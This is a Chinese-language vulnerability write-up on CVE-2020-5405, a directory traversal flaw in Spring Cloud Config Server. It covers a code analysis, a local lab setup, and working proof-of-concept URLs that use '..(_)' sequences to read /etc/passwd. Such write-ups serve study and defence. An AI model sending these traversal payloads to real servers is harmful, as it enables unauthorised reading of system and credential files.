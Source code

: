 （CVE-2020-5405）Spring Cloud Config Server 目录穿越漏洞
========================================================

一、漏洞简介
------------

Spring Cloud
Config为分布式系统的外部配置提供客户端的服务端的支持。使用了它，开发人员就可以在一个中心仓库管理应用程序在所有环境中的外部配置。2020-02-26
Spring 收到漏洞报告, Spring Cloud Config Server 存在目录穿越漏洞。

二、漏洞影响
------------

Spring Cloud Config Server 2.2.0-2.2.1

Spring Cloud Config Server 2.1.0-2.1.6

三、复现过程
------------

### 漏洞分析

其实往前看有个替换的操作,很显眼

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId25.png)

name和label的`(_)`会被替换成`/`,看到这里,我尝试构造poc

    http://www.0-sec.org:8888/aaaa/aaaa/%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%2e%2e%28%5f%29%65%74%63/passwd

我们让label为`..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc`,path为`passwd`,这样拼接完应该是`file:/xxx/xxx/xxx/../../../../../etc/passwd`

但是如果label不为master的话,代码逻辑就会先去checkout,然后就异常了

这里面会导致抛出异常,具体抛出异常的点在哪呢,在`org.springframework.cloud.config.server.environment.MultipleJGitEnvironmentRepository`

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId26.png)

在CVE-2019-3799中,我们使用的配置是常用的`spring.cloud.config.server.git.uri`,它会选择使用`MultipleJGitEnvironmentRepository.class`的getLocations,然后就会走到checkout,抛出异常了,那么我们怎么去不走checkout逻辑呢。

通过翻文档[https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html\#%E7%89%88%E6%9C%AC%E6%8E%A7%E5%88%B6%E5%90%8E%E7%AB%AF%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F](https://zq99299.github.io/note-book/spring-cloud-tutorial/config/002.html#版本控制后端文件系统)

得知这个配置是让它从本地进行加载,而不是用git,通过在application.properties配置

    spring.profiles.active=native
    spring.cloud.config.server.native.search-locations=file:/Users/p0desta/Desktop

其实通过补丁我们也可以发现端倪

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId28.png)

配置后重新跟进调试

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId29.png)

然后就在`/org/springframework/cloud/config/server/environment/NativeEnvironmentRepository.class@getLocations`中对路径进行了处理,大致就是对路径进行拼接,然后存在ouput数组中,返回一个新的Locations对象

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId30.png)

然后后面就是跟CVE-2019-3799一样,直接读文件了。

### 漏洞复现

下载官方Spring Cloud
Config，具体版本`versions 2.1.5.RELEASE`，下载地址为：

    https://github.com/spring-cloud/spring-cloud-config/archive/v2.1.5.RELEASE.zip

导入IDEA项目

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId32.png)

修改配置文件`src/main/resources/configserver.yml`

    info:
      component: Config Server
    spring:
      application:
        name: configserver
      autoconfigure.exclude: org.springframework.boot.autoconfigure.jdbc.DataSourceAutoConfiguration
      jmx:
        default_domain: cloud.config.server
      profiles:
        active: native
      cloud:
        config:
          server:
            native:
              search-locations:
                - file:///Users/rai4over/Desktop/spring-cloud-config-2.1.5/config-repo

    server:
      port: 8888
    management:
      context_path: /admin

设置`profiles-active`为`native`，设置`search-locations`为任意文件夹。

主文件入口位置为`org.springframework.cloud.config.server.ConfigServerApplication`，运行`spring-cloud-config-server`模块，环境开启成功运行在`127.0.0.1:8888`。

### POC

    https://www.0-sec.org:8888/1/1/..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)..(_)etc/passwd

URL编码变形

    https://www.0-sec.org:8888/1/1/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29etc/passwd

返回结果

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-5405)SpringCloudConfigServer目录穿越漏洞/media/rId34.png)

参考链接
--------

> http://p0desta.com/2020/04/16/spring-cloud-config%E7%9B%AE%E5%BD%95%E7%A9%BF%E8%B6%8A%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/\#CVE-2020-5405%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90
>
> https://xz.aliyun.com/t/8303
